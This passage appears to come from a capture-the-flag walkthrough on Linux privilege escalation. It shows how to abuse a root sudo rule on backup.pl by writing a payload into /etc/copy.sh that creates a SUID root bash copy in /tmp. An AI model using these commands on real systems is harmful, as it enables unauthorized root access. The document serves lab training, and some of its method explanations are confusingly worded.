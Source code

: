 That means you can run that specific Perl script as root.


## 13) Read the backup.pl script to understand what it does

View the script (you can run `cat`):

```bash
cat /home/itguy/backup.pl
```

**What to look for:** lines that call `/etc/copy.sh` or that call a shell. If `backup.pl` calls or executes `/etc/copy.sh` as root (for example `system('/etc/copy.sh')`), then we can control what `/etc/copy.sh` does, and when `backup.pl` runs as root it will execute `/etc/copy.sh` as root.


## 14) Check `/etc/copy.sh` permissions

Check if `/etc/copy.sh` exists and its permissions:

```bash
ls -l /etc/copy.sh
```

**You want to see** whether the file exists and who can write it. If the file is *owned by root* but writable by others (unlikely), you can edit it directly. More commonly, it’s root-owned and not writable by `www-data`.



## 15) Add your payload to `/etc/copy.sh`

The goal is to have `/etc/copy.sh` create a SUID root shell. The payload we want inside `/etc/copy.sh` is:

```bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

**Method A - if `/etc/copy.sh` is writable directly by your user:** (recommended)(rare, but works in this case)

```bash
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /etc/copy.sh
```

**Method B - safer and more robust (use sudo tee)**
If you have *any* way to run commands as root or the environment lets you use `sudo`, you can write the file via `tee`. But if you can’t run `sudo` directly, this will fail. However since `sudo -l` indicated you can run `/usr/bin/perl /home/itguy/backup.pl` as root, you can rely on the script running as root to execute `/etc/copy.sh` after you get it in place — see next step.

If you can run `sudo tee` (test whether `sudo` accepts you running tee):

```bash
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' | sudo tee /etc/copy.sh > /dev/null
```
